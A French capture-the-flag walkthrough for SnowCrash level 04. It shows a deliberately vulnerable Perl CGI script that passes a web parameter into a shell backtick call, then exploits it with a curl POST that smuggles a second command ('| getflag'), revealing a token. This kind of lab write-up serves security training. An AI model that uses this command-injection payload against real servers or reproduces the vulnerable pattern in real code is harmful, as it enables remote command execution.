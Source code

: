 # 04 - Perl exploit: entrée utilisateur

- On se connecte en tant que level04.
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat ./level04.pl
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```


- Le script semble être conçu pour être exécuté par un [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) à travers un service écoutant en local sur le port 4747. Il appelle la fonction `x()` avec le paramètre `x` récupéré.

- La fonction `x()` prépare l'instruction qui sera executée côté serveur en utilisant le paramètre `x` récupéré du CGI. Ainsi, le serveur va `echo <notre_input>`.
```
level04@SnowCrash:~$ netstat -tuln | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN
```


- Il y a effectivement un service écoutant sur toutes les adresses par le port 4747.
```
level04@SnowCrash:~$ curl -X POST -d "x=| getflag" http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```